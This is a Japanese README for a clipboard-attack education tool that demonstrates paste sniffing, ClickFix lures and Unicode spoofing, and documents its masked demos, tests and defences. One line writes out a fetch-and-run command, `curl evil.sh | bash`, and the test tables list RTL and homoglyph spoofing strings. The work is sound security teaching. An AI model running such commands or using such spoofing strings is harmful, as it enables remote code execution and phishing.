




[English](README.en.md) · 日本語

<!--
---
id: day033
slug: clipthreat-studio

title: "ClipThreat Studio"

subtitle_ja: "クリップボード悪用攻撃の体験ツール"
subtitle_en: "Clipboard Exploitation Attack Demonstration Tool"

description_ja: "JavaScriptによるクリップボードAPIの悪用手法を再現し、クリック1つで体験できる「クリップボード悪用攻撃の可視化＆体験ツール」です。読み取り・書き込み・paste監視・ClickFix誘導・Unicode文字細工など、心理操作と技術的悪用を組み合わせた脅威を複数タブ構成で体験できます。"
description_en: "An interactive security education tool that demonstrates clipboard API exploitation techniques through a web interface. Experience various clipboard threats including read/write operations, paste monitoring, ClickFix attacks, and Unicode manipulation in a safe, controlled environment."

category_ja:
  - Webセキュリティ
  - ソーシャルエンジニアリング
category_en:
  - Web Security
  - Social Engineering

difficulty: 3

tags:
  - clipboard
  - javascript
  - security
  - clickfix
  - unicode
  - phishing
  - web-security

repo_url: "https://github.com/ipusiron/clipthreat-studio"
demo_url: "https://ipusiron.github.io/clipthreat-studio/"

hub: true
---
-->

# ClipThreat Studio - クリップボード悪用攻撃の体験ツール


[](https://ipusiron.github.io/clipthreat-studio/)

**Day033 - 生成AIで作るセキュリティツール100**

**ClipThreat Studio** は、JavaScriptによるクリップボードAPIの悪用手法を再現し、クリック1つで体験できる「クリップボード悪用攻撃の可視化＆体験ツール」です。

クリップボードに対する「読み取り」「書き込み」「paste監視」「ClickFix誘導」など、心理操作と技術的悪用を組み合わせた脅威を、複数タブ構成で体験できます。

---

## 🌐 デモページ

👉 [https://ipusiron.github.io/clipthreat-studio/](https://ipusiron.github.io/clipthreat-studio/)

---

## 📸 スクリーンショット

> 
>
> *基本操作タブの初期表示（1280×800、70,438バイト）*

> 
>
> *無害な説明文をコピーした後の伏せ字表示（1280×800、49,943バイト）*

> 
>
> *ゼロ幅スペースの見本とコードポイントの分析結果（1280×800、45,774バイト）*

> 
>
> *ゼロ幅・方向制御・文字体系の混在を検出し、制御文字をラベルで表示（1280×800、54,857バイト）*

既存の画像1〜3は第1弾の画面です。英語版READMEには現在の英語画面を掲載しています。

---

## 🎯 特徴

### 📋 基本操作タブ
- `clipboard.readText()` / `.writeText()` API の基本的な動作確認
- クリップボード操作の仕組みとブラウザー制限の理解
- チュートリアル機能で段階的な学習が可能

### 🔍 監視タブ
- クリップボード内容の自動監視・ログ表示
- リアルタイムでのクリップボード変更検出
- 監視間隔の調整とログの詳細表示

### 🎭 盗聴タブ  
- pasteイベントを使ったスニッフィング攻撃の再現
- 入力フィールドでの貼り付け内容の傍受
- ユーザーが気づかない情報漏洩の危険性を体験

### 🚨 ClickFix攻撃タブ
- 偽の修復案内に従う危険性を学ぶデモ
- コピーする内容は無害な説明文のみ
- 攻撃コマンドは伏せ字で表示し、デモ終了・リセット時にクリップボードを空にする

### 🧲 自動送信タブ
- 自動ペースト→自動送信型のフォーム偽装攻撃
- 開発者コンソール風UIでの攻撃シミュレーション
- 段階的チュートリアルと対策方法の詳細解説

### 🧪 文字細工タブ
- Unicode文字細工攻撃（ゼロ幅スペース、RTL文字、同形異義文字など）
- 4種類の攻撃パターンを個別に体験可能
- WeirdString Inspector連携による詳細Unicode分析
- 攻撃結果の詳細表示とコードポイント解析

### 🔒 セキュリティTipsタブ
- 包括的な対策ガイドとベストプラクティス
- アイコン付きカテゴリ別の整理された情報
- セキュリティチェックリストによる自己診断機能

### 🛡️ 貼り付け前チェックタブ

- 手入力または操作時のクリップボード読み取りによる検査。書き込みは行わない。
- 見えない文字・方向の制御文字・Latin／Cyrillic／Greekの混在を検出する。
- 件数と1文字目からの位置をコードポイント単位で示す。最大100,000コードポイント。
- 制御文字を`[U+202E RLO]`などのラベルに置き換えて表示する。
- リセット・タブ離脱で入力と結果を消去し、読み取り待ちの古い結果を破棄する。

### 🎛️ 共通機能
- ❓ ヘルプボタンによる詳細な使い方ガイド
- 📊 各攻撃の結果をタイムスタンプ付きで表示
- 🔄 デモリセット機能で繰り返し体験可能
- 📱 レスポンシブデザインでモバイル対応
- 🌐 ヘッダーの言語ボタンで日本語・英語を切り替え

---

## 🛠️ 使い方

### 基本的な使用手順

1. **アクセス**: このリポジトリーを `git clone` するか、上記の[GitHub Pages上のデモサイト](https://ipusiron.github.io/clipthreat-studio/)にアクセス
2. **ヘルプ確認**: ヘッダー右上の ❓ ボタンで詳細な使い方を確認
3. **タブ切り替え**: 各タブで異なる攻撃手法を体験
4. **チュートリアル**: 各タブのチュートリアル機能で段階的に学習
5. **結果確認**: 各操作の結果とログを詳細に確認
6. **対策学習**: セキュリティTipsタブで技術的背景と防御法を確認

### 推奨学習順序

1. **📋 基本操作** → クリップボードAPIの基礎理解
2. **🔍 監視** → 自動監視の仕組みを体験  
3. **🎭 盗聴** → paste攻撃の危険性を実感
4. **🚨 ClickFix攻撃** → 心理的誘導攻撃を体験
5. **🧲 自動送信** → 自動化攻撃の脅威を理解
6. **🧪 文字細工** → Unicode攻撃の複雑さを認識
7. **🔒 セキュリティTips** → 総合的な対策を学習
8. **🛡️ 貼り付け前チェック** → 貼り付ける前に文字の実体を確認

## 🌐 言語の切り替え

ヘッダーの「English」または「JA」で切り替えます。表示言語はURLの`?lang=ja|en`、保存済みの選択、ブラウザーの言語の順で決まります。日本語以外のブラウザーでは英語になります。保存領域が使えなくても動作します。

切り替えると各デモの入力・結果・進行を初期化し、実行待ちの処理を取り消します。書き込みを行う既存デモの後始末ではクリップボードも空にします。貼り付け前チェック単独のリセット・タブ離脱では書き込みません。言語の選択は保存し、URLにも反映します。

---

## 🔍 WeirdString Inspector連携

文字細工タブ（Unicode文字細工攻撃）では、各攻撃デモの実行後に **「🔍 WeirdString Inspectorで調査」** ボタンが表示されます。

貼り付け前チェックからも同じ連携を利用できます。この場合の`attack_type`は`paste-check`です。

### アクセス先URL形式

ボタンをクリックすると、以下の形式でWeirdString Inspectorにアクセスします：

```
https://ipusiron.github.io/weirdstring-inspector/#text={攻撃文字列}&source=clipthreat-studio&attack_type={攻撃タイプ}
```

### パラメーター詳細

| パラメーター | 説明 | 例 |
|-----------|------|-----|
| `text` | 攻撃に使用されたUnicode文字列（URLエンコード済み） | `f%E2%80%8Bl%E2%80%8Ba%E2%80%8Bg.txt` |
| `source` | ClipThreat Studioからのアクセスを示す識別子 | `clipthreat-studio` |
| `attack_type` | 実行された攻撃タイプ | `ゼロ幅スペース攻撃` |

### 連携する攻撃タイプ

- **ゼロ幅スペース攻撃**: 見た目に分からない不可視文字の混入
- **RTL文字拡張子偽装**: 右から左文字による拡張子偽装
- **スクリプト混在攻撃**: 複数文字体系の混在によるフィッシング
- **同形異義文字攻撃**: 見た目が同じ異なる文字によるドメイン偽装
- **貼り付け前チェック**：`paste-check`として入力内容を渡す

### 受け渡し時のプライバシー

文字列と攻撃タイプはURLのハッシュ（`#text=`）に入れます。
ハッシュはHTTPリクエストとしてサーバーへ送信されません。
WeirdString Inspectorは、このパラメーターの受信に対応しています。
新しいタブは`noopener,noreferrer`を指定して開きます。
受け渡した文字列は遷移先のJavaScriptから読めるため、実際の秘密情報を入力しないでください。

---

## 🧠 教育・啓発目的での活用例

このツールならではの使い方

- 貼り付けた文にゼロ幅文字が紛れていないか調べる（コピペ・校正の授業）：`ab`と`c`のあいだにU+200B（ゼロ幅スペース）を1つ入れた文字列を検査にかけると、警告になり、見えない文字が3文字目の位置に1つあると出る。無害な表示に戻した文では、その文字が`[U+200B ZWSP]`と見える形に置き換わる。コピーした文に見えない文字が混ざっていないかを、位置つきで確かめられる
- ファイル名の向きを変える文字を見つける（なりすまし・フォレンジックの授業）：ファイル名にU+202E（右から左への上書き）を入れた`file\u202Etxt.exe`を検査すると、警告になり、bidi（文字の向き）の文字が6文字目の位置に1つあると出る。画面では拡張子が入れ替わって見えるこの手口を、文字の位置で見つけられる
- 隠し文字の検査は中身の危険とは別だと確かめる（検知の限界の授業）：`curl evil.sh | bash`のような、見るからに危険なコマンドでも、見えない文字や向きを変える文字が入っていなければ、この検査は「問題なし」と判定する。本ツールが見るのは文字の細工であって、コマンドの中身の危険ではない。細工の検知と内容の危険の判断は別のものだと示せる

- セキュリティ研修・授業の教材として
- 展示会・セミナーでの啓発デモツール
- CTFチームやRed Teamの新人教育用
- 「なぜオートフィルを使うべきか」の実感体験

---

## 🛡️ セキュリティ解説

### クリップボード攻撃の脅威レベル

クリップボード攻撃は、ユーザーが日常的に使用するコピー＆ペースト操作を悪用する高度な攻撃手法です。
特に危険な点は、ユーザーが攻撃に気づきにくく、機密情報の漏洩や意図しない操作を引き起こす可能性があることです。

### 📋 基本的なクリップボード攻撃シナリオ

#### シナリオ1: パスワード盗取攻撃
コピーした秘密情報が別のページから読み取られると、意図しない漏洩につながります。サイトごとのクリップボード権限を確認し、実験には架空のデータだけを使ってください。

**被害例**: ユーザーがパスワードマネージャーからパスワードをコピーした瞬間に盗取

#### シナリオ2: 暗号通貨アドレス置換攻撃
送金先を貼り付けた後は、元の宛先と文字列全体を確認してください。履歴への保存や別端末への同期も確認します。

**被害例**: 送金先アドレスが攻撃者のものにすり替わり、資金が盗取される

### 🎭 ペーストイベント監視攻撃

#### 攻撃の仕組み
悪意のあるWebサイトが入力フィールドに貼り付けられた内容を傍受する攻撃です。

貼り付けた内容は、そのページのスクリプトから参照できます。送信ボタンを押していなくても安全とは限りません。管理者は通信先の制限と入力データの扱いを点検してください。

### 🚨 ClickFix攻撃の詳細メカニズム

#### 攻撃フロー
1. **偽装エラー表示**: 「システムエラーが発生しました」
2. **修復ボタン提示**: 「今すぐ修復」ボタンを表示
3. **悪意コード注入**: ボタンクリックで攻撃コードをクリップボードに書き込み
4. **実行誘導**: PowerShellやコマンドプロンプトでの実行を指示

#### 利用者と管理者の防御
突然の修復案内や、OSの実行画面へ貼り付ける指示に従わないでください。利用者はページを閉じ、公式のサポート窓口へ確認します。管理者は不審なスクリプト実行を監視し、正規の対処手順を周知します。本教材は実行可能なコマンドを保持せず、外形の一部と伏せ字だけを表示します。

### 🧪 Unicode文字細工攻撃の技術詳細

#### 1. ゼロ幅スペース攻撃
ゼロ幅文字は見た目で気づきにくいため、文字数とコードポイントを確認します。正規化だけですべての不可視文字を除去できるとは限りません。

#### 2. RTL文字による拡張子偽装
方向制御文字はファイル名の表示順を変えます。表示上の拡張子だけを信用せず、実際のコードポイントとファイル形式を確認してください。

#### 3. 同形異義文字攻撃（IDN偽装）
似た字形でも異なる文字体系の文字があります。ドメイン名や識別子を正規の表記と比較し、見た目だけで同一と判断しないでください。

### 🧲 自動送信攻撃への対策

#### 攻撃シナリオ
開発者がデバッグコードを貼り付けた瞬間に、自動的に機密情報を外部送信する攻撃

入力や貼り付けの直後に外部通信が発生する場合があります。実装者は送信処理の開始条件・通信先・データの内容を確認し、不要な外部通信をCSPで制限してください。この教材の送信表示は模擬表示で、実際の通信は行いません。

### 🛡️ 攻撃対策とベストプラクティス

#### 1. 技術的対策
- **CSP（Content Security Policy）の実装**
- **クリップボードアクセスの権限管理**
- **入力検証とサニタイゼーション**
- **Unicode正規化処理**

#### 2. ユーザー教育
- **コピー&ペースト前の内容確認**
- **信頼できないサイトでの貼り付け禁止**
- **ファイル名の完全表示設定**
- **定期的なクリップボード履歴の確認**

#### 3. 組織的対策
- **セキュリティ研修の実施**
- **インシデント対応計画の策定**
- **ログ監視とアラート設定**
- **定期的な脆弱性評価**

---

## 🧪 テスト

Node 22以上で、依存パッケージを追加せずに実行できます。

```sh
npm test
```

GitHub Actionsはpushとpull_requestで同じテストを実行します。
READMEの表・数値・画像参照もテストで検証します。

| 項目 | 件数 |
|---|---:|
| 学習タブ | 8 |
| 文字細工のコピー例 | 4 |
| Tipsチェックリスト | 3 |
| 各チェックリストの項目 | 10 |
| テストファイル | 8 |

- `test/shared.test.js`：種別・文字判定、エスケープ、Day023連携URL、伏せ字
- `test/pastecheck.test.js`：貼り付け前チェックの判定表・境界・安全表示
- `test/i18n.test.js`：日英辞書・補間・言語決定順・静的文言の翻訳漏れ
- `test/safety.test.js`：無害文言、遅延処理の取り消し、書き込み順序
- `test/html.test.js`：CSP、外部モジュール、ARIA、インライン処理の不在
- `test/contrast.test.js`：配色のコントラスト
- `test/format.test.js`：行長とminify防止
- `test/readme.test.js`：表・数値、画像参照、ディレクトリー構造

貼り付け前チェックの期待値は次のとおりです。混在の判定にはLatin・Cyrillic・Greekだけを数え、CJK・数字・記号・通常の絵文字は数えません。見えない文字と方向制御の警告は、それらの文字があることを知らせるもので、悪意を断定しません。

| 入力 | 見えない文字 | 方向制御 | 混在 |
|---|---:|---:|---|
| 空文字列 | 0 | 0 | false |
| これはテストです。ClipThreat Studioで確認します123。 | 0 | 0 | false |
| Please paste your text here to check it. | 0 | 0 | false |
| https://example.com/path?a=1 | 0 | 0 | false |
| 了解です😀🙂👍 | 0 | 0 | false |
| U+0430＋pple.com | 0 | 0 | true |
| paypa＋U+03BF | 0 | 0 | true |
| exe.＋U+202E＋cod.txt | 0 | 1 | false |
| pass＋U+200B＋word | 1 | 0 | false |
| Привет | 0 | 0 | false |

見えない文字の対象はU+00AD・U+180E・U+200B〜U+200D・U+2060・U+FEFF・U+E0000〜U+E007F、方向制御はU+200E・U+200F・U+202A〜U+202E・U+2066〜U+2069です。ZWJやタグを含む絵文字列も対象になります。混在の件数・位置は、混在した文字列内のLatin・Cyrillic・Greekの文字全体を指します。「問題なし」は、この検査範囲で対象がなかったという意味です。

## 🔒 教材の安全設計と制限

ClickFixがコピーするのは、次の説明文だけです。

「これは ClipThreat Studio のデモです。攻撃コマンドはクリップボードに書き込まれていません。」

画面のコマンド例は「PowerShell …（危険部分は伏せ字）」のように伏せています。
ClickFixのデモ終了、既存デモのリセット・タブ離脱で、クリップボードを空へ戻します。読み取り専用の貼り付け前チェックは対象外です。
リセット時は実行待ちのデモを取り消すため、後から古い結果やコピー内容が戻りません。
権限拒否・API非対応で空にできない場合は、画面と読み上げ通知で手動の後始末を案内します。

- 実際の外部送信は行わない。入力内容をコンソールへ記録しない。
- CSPは同一オリジンのスクリプト・CSSだけを許可し、通信は`connect-src 'none'`で禁止する。
- インラインのイベントハンドラー・style属性を使用しない。
- 動的な入力は`textContent`またはHTMLエスケープで表示する。
- 外部リンクには`noopener noreferrer`、ページには`no-referrer`を指定する。
- キーボードでタブ・アコーディオン・ヘルプを操作できる。320px幅から折り返し、動きを減らす設定に対応する。

ブラウザーを閉じる操作や権限の取り消し後には、クリップボードの消去を保証できません。
OSのクリップボード履歴やクラウド同期の履歴は、このページから削除できません。
また、クリップボードを空にすると以前の内容も失われます。実験には架空のデータだけを使ってください。
このページは秘密情報の貼り付け先ではありません。

`frame-ancestors`と`X-Frame-Options`はHTTPレスポンスヘッダー専用のため、metaでは設定していません。
独立した`404.html`は今回の画面改修の対象外です。

## 📁 ディレクトリー構造

```text
clipthreat-studio/                 # 教育ツール本体
├── .claude/                      # 開発支援用の既存設定
│   └── commands/                 # 開発支援コマンド
│       ├── annotate.md           # 注釈の作成手順
│       └── reload-workspace.md   # ワークスペースの再確認手順
├── .github/                      # GitHub用設定
│   └── workflows/                # 自動検証
│       └── test.yml              # push・PRでNode 22のテストを実行
├── .gitignore                    # Gitの除外設定
├── .nojekyll                     # PagesでJekyll処理を無効化
├── 404.html                      # 既存のエラーページ
├── CLAUDE.md                     # 開発規則と仕様
├── LICENSE                       # MITライセンス
├── README.md                     # 本ドキュメント
├── README.en.md                  # 同じ節構成の英語版
├── assets/                       # 画面画像
│   ├── screenshot.png            # 基本操作の初期画面
│   ├── screenshot2.png           # 安全化したClickFixの伏せ字
│   ├── screenshot3.png           # 文字細工の分析結果
│   ├── screenshot4.png           # 貼り付け前チェックの警告と安全表示
│   └── en/                       # 英語画面の画像
│       ├── screenshot.png        # 基本操作の初期画面
│       ├── screenshot2.png       # ClickFixの伏せ字
│       ├── screenshot3.png       # 文字細工の分析結果
│       └── screenshot4.png       # 貼り付け前チェックの警告と安全表示
├── favicon.svg                   # サイトアイコン
├── index.html                    # 8タブの画面
├── js/                           # ESモジュール
│   ├── autopaste.js              # 外部通信のない送信模擬表示
│   ├── clickfix.js               # 無害文言のコピーと学習表示
│   ├── clipboard.js              # 基本操作
│   ├── clipboard-access.js       # 書き込み順序と後始末
│   ├── clipthreat-messages.js     # 日本語辞書と動的表示の言語選択
│   ├── clipthreat-messages-en.js  # 動的表示の英語辞書
│   ├── clipthreat-ui-messages.js  # 静的画面・属性の日英辞書
│   ├── i18n.js                   # 言語切り替えと画面の再描画
│   ├── main.js                   # タブ・ヘルプ・イベント制御
│   ├── pastecheck.js             # 読み取り専用の貼り付け前チェック
│   ├── shared.js                 # DOM非依存の判定・URL・伏せ字
│   ├── sniff.js                  # 貼り付けの可視化
│   ├── tips.js                   # 対策チェックリスト
│   ├── ui.js                     # CSSクラスによる表示制御
│   ├── watch.js                  # 許可を得た監視
│   └── weirdchar.js              # 文字細工の見本と連携
├── package.json                  # 依存なしのテストコマンド
├── style.css                     # 配色・レイアウト・モバイル対応
└── test/                         # Node標準の自動テスト
    ├── contrast.test.js          # 配色の検証
    ├── format.test.js            # 行長・minify検証
    ├── html.test.js              # 画面構造とCSPの検証
    ├── i18n.test.js              # 日英辞書と表示漏れの検証
    ├── readme.test.js            # 文書・件数・画像の検証
    ├── safety.test.js            # 安全化・後始末の検証
    ├── pastecheck.test.js        # 貼り付け前チェックの判定と境界の検証
    └── shared.test.js            # 純粋ロジックの検証
```

## 💻 動作環境

ESモジュールとClipboard APIに対応するブラウザーで、HTTPSまたはlocalhostのHTTPから利用します。
`file://`での直接読み込みには対応しません。ビルドや依存パッケージのインストールは不要です。

```sh
python -m http.server 8000 --bind 127.0.0.1
```

`http://127.0.0.1:8000/`を開いてください。
クリップボードの読み取り・書き込みには、ブラウザーの権限やフォーカス状態による制限があります。

## 📄 ライセンス

MIT License - 詳細は [LICENSE](LICENSE) をご覧ください。

---

## 🛠️ このツールについて

本ツールは、「生成AIで作るセキュリティツール100」プロジェクトの一環として開発されました。 このプロジェクトでは、AIの支援を活用しながら、セキュリティに関連するさまざまなツールを100日間にわたり制作・公開していく取り組みを行っています。

プロジェクトの詳細や他のツールについては、以下のページをご覧ください。

🔗 [https://akademeia.info/?page_id=42163](https://akademeia.info/?page_id=42163)
